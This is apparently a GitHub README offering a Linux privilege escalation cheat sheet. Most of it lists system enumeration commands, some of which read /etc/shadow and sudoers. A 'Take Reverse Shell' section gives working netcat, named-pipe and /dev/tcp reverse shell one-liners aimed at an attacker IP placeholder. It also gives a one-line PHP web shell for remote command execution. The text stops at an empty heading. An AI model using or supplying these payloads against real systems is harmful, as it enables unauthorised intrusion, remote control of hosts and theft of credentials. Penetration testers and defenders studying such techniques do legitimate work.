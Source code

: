 # Linux-LocalPrivilegeEsclation
This is good for those who don't know where to start when it comes to increasing privileges in "Linux" and looking for a simple, practical and professional cheat sheet.
You can increase the level of access from the mentioned techniques that are in the form of basic Linux topics.
enjoy! @__@
# Operating System(Distribution Type & Version)
### Debian Based(like Ubuntu):
```
lsb_release -a
cat /etc/os-release
cat /etc/issue
cat /etc/apt/sources.list
cat /etc/debian_version
```
### RedHat Based(like CentOs or Fedora):
```
cat /etc/redhat-release
cat /etc/*-release
* ~ put your Disturbution name.
```
### Arch Based(like Artix or Garuda):
```
cat /etc/os-release
cat /etc/lsb-release
```
### SUSE Based(like Tumleweed or Leap):
```
cat /etc/SuSE-release
cat /etc/os-release
```
### Slackware:
```
cat /etc/slackware-version
```
### Gentoo Based:
```
emerge --info | grep "repository:"
```
### Mandvira/Mageia:
```
cat /etc/mandriva-release
```
## Kernel and Architecture(x64|x86)
For All Distirbutions:
```
uname -srm
uname -a
ls /boot | grep vmlinuz
cat /proc/version
dmesg | grep Linux
```
## About The Environment
```
env
set
free
ss
df
du
lsblk
lsusb
lsmod
lspci
who
uptime
cat /etc/profile
cat /etc/bashrc
cat /etc/zshrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```
# Application and Services
### Running Services Per User:
Contains values such as "Time", "PID" and etc:
```
ps aux
ps -ef
top
pstree
cat /etc/services
```
Here, we can limit the result and look for those services that are running by "root" and check for vulnerablities:
```
ps aux | grep root
ps -ef | grep root
```
### List of all apps(running & version):
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archives
ls -aRl /etc/ 
ls -alh /var/cache/yum/
```
### Any Schedule?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
### For Founded Text Files(Sensitive Info):
replace your word with *:
```
grep -i *
```
# Network Environment & Communications
### Network Configuration(DHCP, DNS, Forwarding, etc.):
```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
```
### about MAC/IP:
```
arp -a
route
```
### A way for packet sniffing:
```
tcpdump
```
Hint: tcpdump tcp dst {ip} {port} and tcp dst {ip} {port}
### Take Reverse Shell:
you can use what you want.
you need static ip for this simple ways but there is some other ways if you don't have static ip address, like ngrok:

1. The first way:
```
nc -nlvp -p {port} # on the attacker system
nc {Attacker IP} {port} -e /bin/bash # on the target system
```
2. The second way:
```
nc -nlvp -p {port} # on the attacker system
mknod backpipe p && nc {Attacker IP} {port} 0<backpipe | /bin/bash 1>backpipe # on the target system
```
3. The third way:
```
nc -nlvp -p {port} # on the attacker system
/bin/bash -i > /dev/tcp/{Attacker IP}/{port} 0<&1 2>&1
```
4. The fourth way:
Here you need to make a file that has ".php" format for exmple in the taget system, here is the code:
```
<?=`$_GET[cmd]`?>
```
and you can use it like this:
```
ip/anything/file.php?cmd={here you have RCE}
```
so, after that you need to make python program(just example) for yourself in your computer(AttackerSystem) that make the request to the web server, parsing the response, and present it to you after that, how can you use it?
```
python rce.py 'ip/anything/file.php?cmd=hostname'
```
There are many ways to do this, but it depends on the conditions of the server you have.

### Who Am I? What Can I Do? All About The Access Level:

```
id    # GID, UID, Groups, Username 
who    # Time, Logged on Users
last    # User login and logout information
cat /etc/passwd | cut -d ":" -f 1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers    # Permissions and User Access
cat /etc/group
cat /etc/shadow
```
### Important And Sensitive Information:

















